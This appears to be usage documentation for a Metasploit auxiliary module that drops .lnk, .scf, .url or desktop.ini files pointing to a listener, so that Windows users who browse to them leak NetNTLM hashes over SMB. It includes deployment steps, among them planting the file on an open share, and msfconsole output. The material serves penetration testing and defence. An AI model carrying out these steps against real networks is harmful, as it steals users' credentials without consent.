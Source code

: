 This module dependent on the given filename extension creates either a .lnk, .scf, .url, desktop.ini file which includes a reference to 
the the specified remote host, causing SMB connections to be initiated from any user that views the file. This allows for NetNTLM hashes to be captured
by a listening user.

## Vulnerable Application

Microsoft Windows

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/multidrop```
  4. Customise Options as required
  5. Do: ```run```
  6. A file pointing back to the listening host will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Upload the document to an open share or similar and wait for hashes.

## Options

**FILENAME**
This option allows you to customise the generated filename and filetpye that is generated.

To generate desktop.ini configure a filename of desktop.ini
To generate a scf file configure a filename of anyname.scf
To generate a url file configure a filename of anyname.url
To generate a lnk file configure a filename of anyname.lnk

Filetype generation is based on the file extension.

**LHOST**
This option allows you to set the IP address of the SMB Listener that the document points to
This can be changed using set LHOST 192.168.1.25


## Scenarios

### Microsoft Windows

  
  ```
  Console output
  ```

  ```
  msf auxiliary(multidrop) > show info

       Name: Windows SMB Multi Dropper
     Module: auxiliary/multidrop
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Richard Davy - secureyourit.co.uk, Lnk Creation Code by Mubix

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  FILENAME  desktop.ini      yes       Filename - supports .lnk, .scf, .url, desktop.ini
  LHOST     192.168.1.19     yes       Host listening for incoming SMB/WebDAV traffic

Description:
  This module dependent on the given filename extension creates either 
  a .lnk, .scf, .url, desktop.ini file which includes a reference to 
  the the specified remote host, causing SMB connections to be 
  initiated from any user that views the file. Lnk file creation code 
  taken from module droplnk.rb by Mubix

References:
  https://malicious.link/blog/2012/02/11/ms08_068-ms10_046-fun-until-2018
  https://malicious.link/post/2012/2012-02-19-developing-the-lnk-metasploit-post-module-with-mona/

msf auxiliary(multidrop) > exploit

[+] desktop.ini stored at /root/.msf4/local/desktop.ini
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.lnk
filename => test.lnk
msf auxiliary(multidrop) > exploit

[+] test.lnk stored at /root/.msf4/local/test.lnk
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.scf
filename => test.scf
msf auxiliary(multidrop) > exploit

[+] test.scf stored at /root/.msf4/local/test.scf
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.url
filename => test.url
msf auxiliary(multidrop) > exploit

[+] test.url stored at /root/.msf4/local/test.url
[] Auxiliary module execution completed
msf auxiliary(multidrop) > back
 
  ```